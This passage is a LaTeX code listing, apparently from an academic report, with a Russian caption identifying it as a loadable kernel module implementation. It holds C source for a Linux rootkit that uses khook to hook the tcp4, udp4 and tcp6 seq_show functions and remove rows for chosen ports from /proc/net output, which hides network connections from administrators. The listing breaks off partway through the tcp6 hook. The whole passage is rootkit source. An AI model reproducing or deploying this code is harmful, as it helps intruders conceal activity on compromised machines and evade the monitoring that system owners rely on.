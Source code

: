 \begin{lstlisting}[language=c,caption={Загружаемый модуль ядра, файл реализации},label=lst:rootkit_c]
#include "../inc/fnrootkit.h"

#include <linux/syscalls.h>

#include "../inc/def.h"
#include "../inc/util.h"

#include "../3rd_party/khook/engine.c"

/*************************HIDE CONNECTIONS*******************************/
#include "../inc/net.h"

#include <net/inet_sock.h>
#include <linux/seq_file.h>

LIST_HEAD(hidden_port_list);

KHOOK_EXT(int, tcp4_seq_show, struct seq_file *, void *);
static int khook_tcp4_seq_show(struct seq_file *seq, void *v) {
    int ret;
    char port[12];
    struct hidden_port *hp;

    ret = KHOOK_ORIGIN(tcp4_seq_show, seq, v);

    list_for_each_entry (hp, &hidden_port_list, list) {
        sprintf(port, ":%04X", hp->port);

        if (strnstr(
                    seq->buf + seq->count - PROC_NET_ROW_LEN,
                    port,
                    PROC_NET_ROW_LEN
                )) {
            seq->count -= PROC_NET_ROW_LEN;
            break;
        }
    }

    return ret;
}

KHOOK_EXT(int, udp4_seq_show, struct seq_file *, void *);
static int khook_udp4_seq_show(struct seq_file *seq, void *v) {
    int ret;
    char port[12];
    struct hidden_port *hp;

    ret = KHOOK_ORIGIN(udp4_seq_show, seq, v);

    list_for_each_entry (hp, &hidden_port_list, list) {
        sprintf(port, ":%04X", hp->port);

        if (strnstr(
                    seq->buf + seq->count - PROC_NET_ROW_LEN,
                    port,
                    PROC_NET_ROW_LEN
                )) {
            seq->count -= PROC_NET_ROW_LEN;
            break;
        }
    }

    return ret;
}

KHOOK_EXT(int, tcp6_seq_show, struct seq_file *, void *);
static int khook_tcp6_seq_show(struct seq_file *seq, void *v) {
    int ret;
    char port[12];
    struct hidden_port *hp;

    ret = KHOOK_ORIGIN(tcp6_seq_show, seq, v);


\end{lstlisting}
